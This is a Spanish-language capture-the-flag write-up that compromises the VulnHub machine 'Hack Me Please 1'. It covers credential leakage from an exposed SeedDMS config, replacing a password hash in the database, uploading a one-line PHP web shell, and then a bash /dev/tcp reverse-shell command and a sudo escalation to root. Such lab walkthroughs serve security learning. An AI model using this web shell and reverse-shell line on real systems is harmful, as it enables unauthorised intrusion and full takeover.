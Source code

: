 #ctf-machine #vulnhub #easy-machine #linux  [Vulnhub Link](https://www.vulnhub.com/entry/hack-me-please-1,731/)

## Enumeración inicial
Primeramente hacemos un escaneo ARP con `arp-scan` para identificar la IP de la máquina víctima:
![[Pasted image 20240902183903.png]]

Como vemos la IP de la máquina víctima es la "192.168.159.151" ya que el OUI de la dirección MAC es el "00:0c" correspondiente a las máquinas que se importan en VMWare.

Lanzamos una traza ICMP con `ping` y como vemos el TTL=64 por lo que podemos decir que probablemente estemos ante una máquina Linux, ya que suelen tener este valor de TTL.
![[Pasted image 20240902183941.png]]

### Nmap
Lanzamos un primer escaneo con `nmap` para identificar los puertos TCP abiertos en la máquina:
![[Pasted image 20240902184039.png]]

Como vemos hay 3 puertos abiertos, el puerto 80, 3306 y 33060.

Hacemos un segundo escaneo para detectar la versión y servicio de cada uno de estos puertos:
![[Pasted image 20240902184241.png]]

Como vemos corre el servicio Apache 2.4.41 de Ubuntu y el servicio MySQL 8.0.25.

## Enumeración web
Si accedemos a la página web, vemos la siguiente página principal:
![[Pasted image 20240902184422.png]]

Si analizamos el código JS de `main.js` de la web, vemos el siguiente comentario:
![[Pasted image 20240902190928.png]]

Por lo que si accedemos vemos lo siguiente:
![[Pasted image 20240902191006.png]]

No tenemos credenciales por lo que si buscamos en internet podemos extraer que SeedDMS utiliza un archivo de configuración dentro de `/conf/settings.xml` . Por lo que si accedemos a:
http://192.168.159.151/seeddms51x/conf/settings.xml

Vemos un archivo XML de configuración donde podemos extraer unas credenciales de la base de datos:
![[Pasted image 20240902191834.png]]

Por lo que podemos conectarnos a la máquina víctima con estas credenciales:
![[Pasted image 20240902192105.png]]

Si extraemos los datos de la tabla users de la base de datos "seeddms", podemos ver una contraseña:
![[Pasted image 20240902192051.png]]

Si extraemos los datos de la tabla "tblUsers" podemos extraer 2 usuarios más con 1 contraseña:
![[Pasted image 20240902192537.png]]

Pero como tenemos acceso a la base de datos, podemos cambiarle la contraseña. Utilizando md5  ya que `hashid` nos indica que probablemente sea md5:
![[Pasted image 20240902193523.png]]

Por lo que computamos el `md5sum` de la cadena "password":
![[Pasted image 20240902193616.png]]

Y la introducimos en la base de datos:
![[Pasted image 20240902193821.png]]

Por lo que si accedemos con las credenciales, obtenemos acceso:
![[Pasted image 20240902193937.png]]

Una vez dentro podemos subir un archivo PHP malicioso dentro de "Add document":
![[Pasted image 20240902194118.png]]

Y le establecemos por un lado el nombre:
![[Pasted image 20240902194157.png]]

Y, por otro lado, el archivo a subir:
![[Pasted image 20240902194257.png]]

El archivo PHP contiene lo siguiente:
```php
<?php system($_GET["cmd"]); ?>
```

Una vez subido si accedemos a la página principal veremos que ya aparece:
![[Pasted image 20240902194722.png]]

Por lo que si hacemos *hover* en el archivo podremos ver su id:
![[Pasted image 20240902194808.png]]

Por lo que si accedemos a `/data/1048576/4/1.php`, tendremos acceso al archivo, por lo que accedemos a:
http://192.168.159.151/seeddms51x/data/1048576/4/1.php?cmd=whoami

Tenemos RCE:
![[Pasted image 20240902195018.png]]

Y podemos entablarnos una *reverse shell* con el comando:
```bash
bash -c "bash -i >& /dev/tcp/192.168.159.131/443 0>&1"
```

Por lo que si nos podemos en escucha con `nc` por el puerto 443, obtenemos la *reverse* *shell*:
![[Pasted image 20240902195154.png]]

Así que hacemos el tratamiento de la TTY:
![[Pasted image 20240902195249.png]]
![[Pasted image 20240902195337.png]]

## Escalada de privilegios
Si listamos los usuarios del sistema, vemos que existe el usuario "saket" por lo que podemos intentar migrar de usuario con la credencial que tenemos:
![[Pasted image 20240902195506.png]]
![[Pasted image 20240902195657.png]]

Si listamos los permisos a nivel de *sudoers* de "saket" vemos que puede ejecutar cualquier comando como *root*, por lo que ejecutamos `sudo su` y ya somos el usuario *root*:
![[Pasted image 20240902200003.png]]
![[Pasted image 20240902200014.png]]

___
#information-leakage #file-upload-attacks #abusing-sudoers #web-enumeration 
___